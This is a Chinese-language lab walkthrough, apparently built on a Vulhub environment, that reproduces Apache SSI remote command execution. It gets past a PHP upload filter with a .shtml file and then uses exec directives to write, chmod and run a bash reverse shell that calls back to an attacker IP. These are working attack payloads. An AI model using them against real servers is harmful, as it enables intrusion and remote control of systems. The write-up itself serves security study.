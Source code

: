 # Apache SSI 远程命令执行漏洞

## 漏洞描述

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用`<!--#exec cmd="id" -->`语法执行任意命令。

参考链接：

- https://httpd.apache.org/docs/2.4/howto/ssi.html
- https://www.w3.org/Jigsaw/Doc/User/SSI.html

## 环境搭建

Vulhub运行一个支持SSI与CGI的Apache服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/upload.php`，即可看到一个上传表单。

## 漏洞复现

正常上传PHP文件是不允许的，我们可以上传一个shell.shtml文件：

![image-20220221190853964](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211908075.png)

成功上传，然后访问shell.shtml，可见命令已执行，成功查看当前目录：

![image-20220221191023391](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211910477.png)

创建反弹shell，依次上传并访问shell.shtml（一共三次）

```
# 第一次写入webshell文件
<!--#exec cmd="echo 'bash -i >& /dev/tcp/192.168.174.128/9999 0>&1' > /var/www/html/shell.sh"-->
# 第二次修改webshell权限
<!--#exec cmd="chmod +x /var/www/html/shell.sh"-->
# 第三次执行webshell
<!--#exec cmd="/bin/bash /var/www/html/shell.sh"-->
```

成功接收反弹shell

![image-20220221191821240](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211918306.png)

